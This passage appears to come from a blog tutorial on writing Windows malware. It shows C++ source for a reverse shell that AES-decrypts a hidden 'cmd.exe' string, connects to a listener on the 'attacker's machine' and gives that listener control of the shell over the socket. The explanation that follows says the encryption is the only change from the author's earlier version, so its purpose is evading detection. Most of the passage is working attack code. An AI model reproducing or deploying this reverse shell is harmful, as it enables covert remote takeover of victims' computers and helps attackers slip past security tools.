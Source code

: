 ```cpp

  return 0;
}

int main(int argc, char* argv[])
{
  // decrypt command
  AESDecrypt((char *) myCmd, myCmdL, mySecretKey, sizeof(mySecretKey));

  // listener ip, port on attacker's machine
  char *ip = "127.0.0.1";
  short port = 4444;

  // init socket lib
  WSAStartup(MAKEWORD(2, 2), &wsaData);

  // create socket
  wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  hax.sin_family = AF_INET;
  hax.sin_port = htons(port);
  hax.sin_addr.s_addr = inet_addr(ip);

  // connect to a attacker's host port
  WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

  memset(&sui, 0, sizeof(sui));
  sui.cb = sizeof(sui);
  sui.dwFlags = STARTF_USESTDHANDLES;
  sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

  char command[8] = "";
  snprintf( command, sizeof(command), "%s", myCmd);

  // start cmd.exe (decrypted) with redirected streams
  CreateProcess(NULL, command, NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
  exit(0);
}
```

The only difference with our first simple implementation is - we add AES decrypt function, our secret key `mySecretKey` for decryption and `myCmd` for store our encrypted command:

![add AES and key](/assets/images/5/2021-09-15_13-17.png){:class="img-responsive"}
